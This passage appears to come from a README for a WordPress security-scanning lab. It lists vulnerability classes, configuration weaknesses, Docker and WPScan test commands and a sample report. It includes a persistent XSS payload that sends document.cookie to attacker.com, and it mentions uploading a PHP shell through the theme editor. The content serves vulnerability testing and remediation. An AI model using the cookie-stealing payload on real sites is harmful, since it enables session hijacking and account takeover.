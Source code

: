 2. **Remote Code Execution**
   - **Vector**: File upload bypass in themes
   - **Exploit**: Upload PHP shell via theme editor
   - **Impact**: Full server compromise

3. **Cross-Site Scripting (XSS)**
   - **Type**: Persistent XSS in comments
   - **Payload**: `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>`
   - **Impact**: Session hijacking, admin account takeover

### Configuration Weaknesses
- **Debug Mode Enabled**: Information disclosure
- **Default Credentials**: admin/password combinations
- **File Permissions**: World-writable configuration files
- **Version Disclosure**: WordPress version in HTTP headers

## 🛠️ Advanced Usage

### Custom Scan Parameters
```yaml
# Workflow dispatch inputs
wordpress_versions: "latest,5.8,6.0"  # Specific versions
scan_intensity: "aggressive"           # Scan depth
```

### Local Development Testing
```bash
# Run individual container for testing
docker-compose -f wordpress-configs/docker-compose.yml up -d

# Manual WPScan execution
docker run --rm --network wordpress-configs_wp-network \
  wpscanteam/wpscan --url http://wordpress:8080 --enumerate ap,at,u
```

## 📈 Reporting & Analysis

### Automated Reports Generated
- **Executive Summary**: High-level vulnerability overview
- **Technical Details**: CVE mappings, CVSS scores
- **Remediation Guide**: Step-by-step fix instructions
- **Compliance Mapping**: OWASP Top 10, NIST framework alignment

### Sample Vulnerability Report
```json
{
  "wordpress_version": "5.8",
  "vulnerabilities": [
    {
      "title": "WordPress Core < 5.8.1 - User Authenticated Stored XSS",
      "cvss": 6.4,
      "cve": "CVE-2021-39201",
      "exploitability": "High",
      "remediation": "Update to WordPress 5.8.1+"
    }
  ],
  "plugins": {
    "hello-dolly": {
      "version": "1.7.2",
      "vulnerabilities": ["Potential information disclosure"]
    }
```